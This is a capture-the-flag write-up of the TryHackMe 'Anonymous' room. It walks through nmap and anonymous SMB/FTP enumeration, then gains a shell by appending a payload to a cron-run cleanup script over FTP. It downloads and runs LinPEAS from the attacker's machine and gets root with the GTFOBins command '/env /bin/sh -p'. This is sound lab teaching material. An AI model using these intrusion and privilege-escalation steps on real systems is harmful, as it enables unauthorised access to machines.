



# 🎭 Anonymous / linux priv escalation

```javascript
"28.05.2024"
```


Link to CTF on TryHackMe


## Initial Enumeration

I will start with a basic Nmap scan, then move on to a more complex one with specified ports.

```bash
nmap target_ip
```

<figure><figcaption></figcaption></figure>

The response indicates that File Transfer Protocol (FTP), Secure Shell (SSH), and Samba services are available with open ports accordingly. This information allows us to answer the first two questions on the TryHackMe (THM) page: "How many ports are open?" and "What service is running on port 21?"


<mark style="color:green;">question #1, 2</mark> - quantity of open ports / service on port 21


### Finding the Share

Now, let's find the answer to the third question: "There's a share on the user's computer. What's it called?" To get this information, let's enumerate the found ports using basic scripts with the `-sC` flag.

```bash
nmap -sV -sC target_ip | tee init_scan
```

> _Note: We use the `tee` tool to save the output to the specified file._

<figure><figcaption></figcaption></figure>

## Checking Samba and FTP Services

From the output, we see that Samba and FTP services allow anonymous login. So, I'll try to enumerate both, starting with SMB. For that, I'll use the `smbclient` tool with the `-N` flag for logging into public shares without a password, and the `-L` flag to list all available shares.

```bash
smbclient -N -L //10.10.42.102
```

<figure><figcaption></figcaption></figure>

Here we go, the non-standard share is presented in the output. This is our answer for question number 3. Additionally, we can list its elements with further enumeration.


<mark style="color:green;">question #3</mark> - user share


```bash
smbclient -N //10.10.42.102/pics
```

<figure><figcaption></figcaption></figure>

We see two images in the `pics` share. Let's download them and scan for hidden binaries.

```bash
get image_name
```

<figure><figcaption></figcaption></figure>

## Enumerating FTP Service

Nothing interesting was found in the images, so let’s move back to the FTP service and enumerate it instead.

```bash
ftp target_ip
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

I landed in a directory with only one folder, 'scripts', which contains a few files that I can download and inspect on my machine.

<figure><figcaption></figcaption></figure>

### Analyzing Script Files

The `to_do.txt` file wasn’t helpful, but `removed_files.log` and `clean.sh` have some interesting information. The `clean.sh` script looks for files in the `/tmp` directory. If it finds any, it deletes them and writes the date and name of the deleted files into the log file. If no files are found, it writes a 'nothing to delete' message in the log file. By analyzing the log file content, we see that there are no files to delete and the `clean.sh` script runs every few minutes. This means every command we include in that file will run accordingly. Let's use this to append a basic bash shell into it.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Getting a Shell

I will write the shell command in the `shell.sh` file, start a listener on my system (using Metasploit's multi-handler), and use the append function of the FTP service to append my code to the target file `clean.sh`

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And we got the shell and the user flag. Now, let’s try to escalate our privileges to the root user. Starting with the basic `sudo -l` to list commands which we can run with the privileges of other users, without providing the password.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>


<mark style="color:green;">user.txt</mark>


## Privilege Escalation

Unfortunately, the output shows that we can’t run sudo on this system without the user password. So, let's use some automated tools to find an escalation path faster and more easily. In our case, I will download `linpeas.sh` from my own system to the target machine.

```bash
python -m http.server

wget http://your_ip:8000/linpeas.sh
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Don’t forget to add execution privileges to the downloaded enumeration tool.

```bash
chmod +x linpeas.sh
./linpeas.sh
```

<figure><figcaption></figcaption></figure>

### Analyzing LinPEAS Output <a href="#analyzing-linpeas-output" id="analyzing-linpeas-output"></a>

In the LinPEAS output, we see a few interesting things:

1. Our user is part of the sudo and admin group.

<figure><figcaption></figcaption></figure>

2. The cron job, which we have already used to get access to the shell on this system.

<figure><figcaption></figcaption></figure>

3. A broken SUID of `/env`, which provides us with a 99% chance of escalating to the root user on this system.

<figure><figcaption></figcaption></figure>

### Getting Root Access <a href="#escalating-to-root" id="escalating-to-root"></a>

I will use a command from GTFOBins.

```
/env /bin/sh -p
```

<figure><figcaption></figcaption></figure>

That worked just as I thought, and we got the root flag.

<figure><figcaption></figcaption></figure>


<mark style="color:green;">root.txt</mark>

